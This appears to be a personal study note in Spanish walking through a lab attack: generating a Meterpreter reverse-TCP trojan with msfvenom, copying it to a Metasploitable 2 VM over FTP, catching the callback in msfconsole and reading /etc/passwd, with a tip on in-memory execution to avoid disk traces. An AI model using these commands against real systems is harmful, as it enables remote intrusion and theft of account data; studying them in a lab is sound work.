

# Planteamiento
> [!EXAMPLE] Sea una máquina víctima
> Se plantea crear un [[APT]] usando [[msfvenom]] que ejecute [[Meterpreter]] sobre ella.
> 
> Este [[APT]] será un archivo ejecutable infectado que creará un [[Reverse Shell]] vía [[TCP]] cuando un administrador del sistema lo ejecute.

## Parámetros
Para este ejemplo, se parte con los siguientes datos.
- Máquina atacante: `192.168.56.1` -> Mi máquina local.
- Máquina víctima: `192.168.56.101` -> [[Máquina Virtual]] con [[Metasploitable 2]].
	-> Credenciales conocidas: `msfadmin:msfadmin` -> usuario y contraseña de `root`.

> [!IMPORTANT] Las máquinas están en la misma red.


# Ejecución
Teniendo en cuenta:
![[msfvenom#^d83e1d]]

## 1 - Crear un [[Troyano]] usando [[msfvenom]]
1. Cargar el [[Payload]] `linux/x86/meterpreter/reverse_tcp`.
	- Ejecuta [[Meterpreter]] sobre una máquina [[Linux]] de [[Arquitectura#32 bits| 32 bits]], haciendo un [[Reverse Shell]] usando el protocolo [[TCP]].
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=5000 -f elf > ejecutable
```
- Crea un archivo llamado "ejecutable" con formato `.elf`.
*-> El [[Puerto]] debe ser superior a 1024, para que no haya problemas.*

2. Asignar permisos de ejecución al archivo ejecutable.
```shell
chmod a+x ejecutable
```
- `a`: grupo de usuarios administradores.
- `+x`: otorgar permiso de ejecución.

## 2 - Enviar el [[Troyano]]
Durante esta fase, el archivo ejecutable creado debe **acabar en la máquina víctima**.

*-> En este caso se está haciendo trampa porque **ya se saben las credenciales de la máquina víctima**: averiguar previamente dichas credenciales sería otro paso a llevar a cabo. Así se verá en [[Ejemplo de ataque completo]].*

1. Enviar el archivo por [[SCP]] o [[FTP]] (en mi caso, [[FTP]] porque [[SCP]] no funciona).
```shell
ftp msfadmin@192.168.56.101
```

## 3 - Escuchar al envío con [[msfconsole]]
1. Usar el manejador del exploit.
```shell
use exploit/multi/handler
```

2. Determinar el [[Payload]].
```shell
set payload linux/x86/meterpreter/reverse_tcp
```
- Se usa el mismo que se usó en el apartado anterior.

4. Determinar la [[IP]] de la máquina atacante.
```shell
set lhost 192.168.56.1
```
- Máquina a la que se debe enviar el [[Reverse Shell]] desde la máquina víctima.

3. Determinar el [[Puerto]] de escucha de la máquina atacante.
```shell
set lport 5000
```
- Puerto de la máquina a la que se debe enviar el [[Reverse Shell]] desde la máquina víctima.

## 4 - Recibir la conexión
Una vez ejecutado el archivo generado en la sección anterior dentro de la máquina víctima, [[msfconsole]] -que estaba a la escucha- recibe la conexión desde ella.

Eso activa [[Meterpreter]] en la máquina atacante (se abre la consola dentro de [[msfconsole]]).
```shell
meterpreter >
```


# Ejemplo de uso de [[Meterpreter]]
Cuando se activa la consola de [[Meterpreter]], ya se tiene acceso a la víctima.

Un comando útil suele ser ver el contenido del fichero `passwd`.
```shell
meterpreter > cat /etc/passwd
```

Se obtienen los usuarios de la máquina víctima, en la máquina del atacante.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
```

#todo revisar y escribir.
-> Mención al [[Exploit]] de [[Golden Ticket]].

> [!TIP] Algunos [[Exploit|exploits]] pueden **ejecutar código directamente en memoria**
> Esto evita que queden rastros en el disco.
> - Funciona bien contra servidores porque se mantienen encendidos.
> - Puede infectarse un archivo de un servicio.

#todo revisar y escribir.
Programa de la Policía: [[Caffein]] (y su contramedida, [[Decaffeine]]).


# Diagrama de la ejecución
Se muestra en **rojo** el paso en el que se ha hecho **trampa** para que la máquina víctima tenga el ejecutable infectado.

